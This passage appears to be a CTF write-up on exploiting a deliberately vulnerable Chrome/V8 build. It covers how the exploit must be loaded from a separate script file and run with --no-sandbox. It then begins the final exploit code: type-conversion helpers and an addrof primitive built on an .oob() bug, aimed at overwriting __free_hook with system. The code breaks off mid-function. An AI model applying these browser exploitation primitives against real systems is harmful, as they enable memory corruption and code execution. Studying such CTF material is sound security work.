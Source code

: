 This is the other issue I ran into. If I insert the exploit scripts into `<script>...</script>` tags inside a html file and open it in the vulnerable version of Chrome presented for this challenge, all of my arbitrary reads return 0.

I debugged this for a bit, and it seems like (to the best of my knowledge) that any addresses that I pass into my arbitrary read primitive function are being searched for within the `chrome` browser process, and not within the renderer process.

I've attached gdb to both the browser process and the renderer process, and I can confirm that they have different memory mappings, which would explain why my arbitrary reads return 0. The browser process simply does not have those memory regions mapped.

If anyone knows how to fix this, feel free to DM me. This is the only thing I'm missing that's preventing me from fully completing this challenge.

**Update**: I've figured out how to fix it. It was a problem with my html file. Essentially, the html file needs to look like the following:
```html
<html>
  <head>
    <script src="pwn.js"></script>
  </head>
</html>
```

The reason it wasn't working was because I didn't put the script into a separate file. I embedded the entire script in between `<script>...</script>` tags. Putting it in a separate file fixes this issue.

Run chrome with `./chrome --no-sandbox ./index.html` to trigger the script. Only the WebAssembly version of the exploit works. I believe the way I leaked the addresses for the `__free_hook` version doesn't bode well when Chrome is ran.

## Final exploit scripts

Feel free to DM me any questions you may have through Twitter.

Exploit for overwriting `__free_hook` to `&system` and calling it by doing `console.log("xcalc");`:
```javascript
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

/// Construct addrof primitive
var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

console.log("[+] Float array map: 0x" + ftoi(float_arr_map).toString(16));
console.log("[+] Object array map: 0x" + ftoi(obj_arr_map).toString(16));

function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
```